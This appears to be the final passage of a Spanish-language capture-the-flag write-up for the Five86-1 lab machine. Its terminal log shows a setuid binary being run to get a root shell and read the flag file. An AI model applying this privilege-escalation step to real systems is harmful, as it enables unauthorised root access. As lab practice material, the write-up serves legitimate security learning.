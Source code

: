 
```
moss@five86-1:~/.games$ file upyourgame 
upyourgame: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=391189d61024b35dd29857e0c206c7b93023129e, not stripped
moss@five86-1:~/.games$ ./upyourgame 

Would you like to play a game? Yes
Could you please repeat that? yes
Nope, you'll need to enter that again. ok
You entered: No.  Is this correct? no
We appear to have a problem?  Do we have a problem? yes
Made in Britain.
# id
uid=0(root) gid=1001(moss) groups=1001(moss)
# bash
root@five86-1:~# cd /root
root@five86-1:/root# cat flag.txt
***************00593da4522251746
```

Con esto completamos la maquina de five86
Estuvo buena sobre todo la parte de pivotear entre usuarios al final
y me permitio practicar la creacion de diccionarios personalizados :D
